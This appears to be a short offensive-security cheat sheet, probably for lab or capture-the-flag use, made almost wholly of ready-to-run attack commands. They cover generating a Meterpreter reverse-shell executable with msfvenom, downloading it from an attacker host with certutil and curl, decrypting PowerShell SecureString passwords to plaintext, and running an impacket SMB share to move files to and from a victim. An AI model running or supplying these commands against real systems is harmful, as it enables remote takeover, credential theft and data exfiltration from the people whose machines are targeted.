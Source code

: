 
msfvenom command to generate reverse shell with meterpreter :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=5555 -f exe -o s.exe
```


Downloads a file into `%temp%`
```shell
certutil -urlcache -f http://10.10.14.14:6666/s.exe %temp%/s.exe
curl http://10.10.14.14:8000/s.exe -o %temp%/s.exe
```


Decypher Secure String password :
```powershell
# Method 1 
$Decrypted = [System.Runtime.InteropServices.marshal]::PtrToStringAuto([System.Runtime.InteropServices.marshal]::SecureStringToBSTR($InputSecureString)) 
# Method 2 
$temp = New-Object PSCredential ("Decrypt", $InputSecureString) 
$Decrypted = $temp.GetNetworkCredential().Password
```

Local SMB server for file transfers :
```
# On attacker
mkdir share
sudo impacket-smbserver share -smb2support share -user guest -password guest

# On victim
net use n: \\10.10.14.13\share /user:guest guest
copy n:\<file> .
copy <file> n:\

```
